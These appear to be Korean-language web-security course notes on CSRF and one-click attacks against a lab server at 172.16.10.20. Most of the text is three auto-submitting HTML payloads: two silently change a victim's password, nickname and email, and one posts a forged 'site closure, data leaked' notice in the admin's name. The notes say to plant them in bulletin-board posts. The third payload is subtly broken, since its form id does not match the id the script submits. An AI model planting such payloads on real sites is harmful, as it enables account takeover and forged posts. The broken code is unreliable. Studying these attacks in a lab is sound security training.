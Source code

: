 ```
<form id="csrf" method="post" action="http://172.16.10.20/member/member_info_change.php">
<input type="hidden" name="user_pw1" value="qwer1234">
<input type="hidden" name="age" value="30">
<input type="hidden" name="nick" value="관리자">
<input type="hidden" name="email" value=admine@kh.com>
</form>
<script>document.getElementById("csrf").submit();</script>

-> 이걸 게시판에 글 쓰기 해서 본문에 적용 하기 
-> 골프존
```



### One-Click Attack

- CSRF 공격 요청이 사용자의 이벤트 발생 후 처리되는 방식 -> 공격 요청에 대한 응답이 피해자 화면에 표시 안됨.
- 공격이 발생하는 페이지 이외의 기능을 조작 -> 게시물 자동 등록, 댓글 자동 달기, 회원 정보 변경 등 

```
<iframe name="i" width="0" height="0"></iframe>
<form target="i" id="csrf" method="post" action="http://172.16.10.20/member/member_info_change.php">
<input type="hidden" name="user_pw1" value="keroro2424">
<input type="hidden" name="age" value="30">
<input type="hidden" name="nick" value="멍청이">
<input type="hidden" name="email" value=admine@kh.com>
</form>
<script>document.getElementById("csrf").submit();</script>

-> 이걸 게시판에 글 쓰기 해서 본문에 적용 하기 
```



### CSRF 실습 (97p)

- 자동 글 올리기
- 공격자가 "관리자님 도와주세요!" 하는 글 게시
- 관리자가 글을 읽으면 자신도 모르게 자신의 이름으로 "제목 : 사이트 폐쇄, 내용 : 우리사이트의 개인정보가 털렸으니 하루빨리 탈퇴바랍니다.  " 라는 글이 등록!
- TIP : textarea 는 type=text 와같음

```
<iframe name="i" width="0" height="0"></iframe>
<form id="i" method="post" action="http://172.16.10.20/board/board_write_ok.php">
<input type="hidden" name="name" value="admin">
<input type="hidden" name="age" value="30">
<input type="hidden" name="nick" value="멍청이">
<input type="hidden" name="email" value=admine@kh.com>
<input type="hidden" name="sub" value="사이트폐쇄">
<input type="hidden" name="cont" value="우리사이트의 개인정보가 털렸으니 하루빨리 탈퇴바랍니다.">
</form>
<script>document.getElementById("csrf").submit();</script>
```
